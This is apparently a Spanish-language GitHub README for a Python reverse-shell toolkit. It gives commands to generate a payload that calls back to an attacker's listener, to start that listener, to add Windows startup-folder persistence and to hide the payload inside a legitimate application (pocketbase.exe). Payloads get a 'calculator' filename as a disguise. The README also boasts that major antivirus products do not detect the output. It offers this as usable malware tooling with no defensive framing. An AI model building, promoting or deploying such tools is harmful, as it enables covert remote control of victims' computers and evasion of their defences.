





# Reverse Shell

Proyecto que consiste en generar un payload de reverse shell en python, el cual se ejecuta en la máquina objetivo y se conecta a un servidor controlado por el atacante.

- [Reverse Shell](#reverse-shell)
  - [Requisitos](#requisitos)
  - [Instalación](#instalación)
  - [Uso](#uso)
  - [Comandos](#comandos)
  - [Ejemplos](#ejemplos)
    - [Payload](#payload)
    - [Servidor en escucha](#servidor-en-escucha)
    - [Autoexe](#autoexe)
    - [Hidden exe in pocketbase](#hidden-exe-in-pocketbase)
  - [Pruebas realizadas en antivirus](#pruebas-realizadas-en-antivirus)
  - [Resultados de virustotal.com](#resultados-de-virustotalcom)
  - [Capturas](#capturas)

## Requisitos

- 

## Instalación

Clona el repositorio

```bash
git clone https://github.com/epmyas2022/reverse_shell.git
```

Entra al directorio del proyecto

```bash
cd reverse_shell
```

Instala las dependencias

```bash
pip install -r requirements.txt
```

## Uso

```bash
python reverse_shell.py
```

## Comandos

- `help`: Muestra la lista de comandos disponibles.
- `generate`: Genera un payload de reverse shell en python.
- `execute`: Inicia un servidor que escucha las conexiones de los payloads generados.
- `autoexe`: Genera un exe que creara una copia del payload en la carpeta de inicio de Windows.
- `hiddenexe`: Genera un exe que oculta una carga dentro de otra aplicacion.
- `set`: Establece el valor de una variable.
- `exit`: Salir del programa.

## Ejemplos

Generar un payload de reverse shell especificando la dirección IP y el puerto del servidor

El siguiente comando setea la direccion IP del payload:

### Payload

```bash
set generate.lhost 10.0.0.20
```

El siguiente comando setea el puerto del payload:

```bash
set generate.lport 4444
```

El siguiente comando genera el payload:

```bash
generate
```



Los payloads generados se guardan en la carpeta raíz del proyecto. con el siguiente nombre: `calculator-{timestamp}`

### Servidor en escucha

Iniciar el servidor que escucha las conexiones de los payloads generados

El siguiente comando setea el puerto del servidor:

```bash
set session.lport 4444
```

El siguient comando setea el host del servidor:

```bash
set session.lhost 10.0.0.20
```

El siguiente comando inicia el servidor:

```bash
execute
```



Para detener la escucha del servidor, presiona `Ctrl + C`

Para salir de la sesión, ejecuta el comando `exit`

### Autoexe

Generar un autoexe creara una copia del payload en la carpeta de inicio de Windows.

Antes que nada, se debe generar un payload.

El siguiente comando setea el nombre del archivo:

```bash
set windows.autoexe.path <nombre_del_payload>
```

El siguiente comando genera el autoexe:

```bash
autoexe
```



### Hidden exe in pocketbase

Generar un exe que oculta una carga dentro de otra aplicacion (pocketbase.exe)

Antes que nada, se debe generar un payload.

El siguiente comando setea el directorio de aplicacion:

```bash
set windows.hiddenexe.path <ruta_con_lo_que_se_quiere_ocultar>
```

El siguiente comando indica el nombre de exe oculto a ejecutar:

```bash

set windows.hiddenexe.payload <nombre_del_exe_oculto>
```

El siguiente comando indica el nombre del exe legitimo a ejecutar:

```bash
set windows.hiddenexe.app <nombre_del_exe_legitimo>
```

El siguiente comando genera el hidden exe:

```bash
hiddenexe
```



## Pruebas realizadas en antivirus

✅ = No detectado
❌ = Detectado

- Windows Defender [✅]
- Avast [✅]
- ESETNOD32 [✅]
- McAfee [✅]
- Bitdefender [✅]
- Bkav Pro [❌]
- SecureAge [❌]
- Kaspersky [❌]
- Skyhigh (SWG) [❌]

## Resultados de virustotal.com

<a href="https://www.virustotal.com/gui/file/a3529b34abafcf1bb4ae8bebb464d7a79a22ea1bd9a14dfdd53072edd2d28911">Payload</a>
  
<a href="https://www.virustotal.com/gui/file/9988d8ba90ad03359e79be815032e616d1f76432a12208c659b1cd2a8a719f7b/detection">Autoexe</a>

<a href="https://www.virustotal.com/gui/file/49e681cf0985c0923db8f1f879be37af7a8d179085b2f226ee02d02c7bcbc19d">Hidden exe in pocketbase</a>

## Capturas


